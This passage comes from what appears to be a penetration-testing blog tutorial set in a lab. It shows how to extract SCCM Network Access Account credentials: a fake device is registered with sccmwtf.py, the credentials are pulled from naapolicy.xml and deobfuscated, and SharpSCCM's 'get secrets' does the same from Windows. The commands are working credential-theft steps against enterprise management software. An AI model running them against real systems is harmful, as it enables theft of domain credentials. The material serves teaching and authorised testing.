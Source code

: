 - Add this line in your `/etc/hosts`

```
192.168.33.11 MECM MECM.SCCM.LAB
```

- From linux use SCCMWTF

```bash
python3 sccmwtf.py fake fakepc.sccm.lab MECM 'SCCMLAB\exegol$' 'maytheforcebewithyou'
```

![sccm_wtf.png](/assets/blog/SCCM/sccm_wtf.png)

- Creds are in naapolicy.xml

![naapolicy.xml.png](/assets/blog/SCCM/naapolicy.xml.png)

- And xpn also write the python script to decipher the result <3

```bash
cat /tmp/naapolicy.xml |grep 'NetworkAccessUsername\|NetworkAccessPassword' -A 5 |grep -e 'CDATA' | cut -d '[' -f 3|cut -d ']' -f 1| xargs -I {} python3 policysecretunobfuscate.py {}
```

![sccmwtf_decipher.png](/assets/blog/SCCM/sccmwtf_decipher.png)

> Warning this one also will create an entry into the mecm device (you will have to delete it once sccmadmin or ask your client to do that)
> ![dirtu_sccmwtf.png](/assets/blog/SCCM/dirtu_sccmwtf.png)
{: .prompt-warning }


### from windows

- Details [here](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/CRED/CRED-2/cred-2_description.md)
- From windows launch the get secrets command

```bash
[SharpSCCM.Program]::Main("get secrets -r newcomputer -u exegol$ -p maytheforcebewithyou".split());
```

![sharpsccm_getnaa.png](/assets/blog/SCCM/sharpsccm_getnaa.png)

> Careful this one also create artifact in the client console
> ![dirty_naa_retreive.png](/assets/blog/SCCM/dirty_naa_retreive.png)
{: .prompt-warning }

On the next post we will continue the exploitation as a user admin on a client and as an sccm admin account.
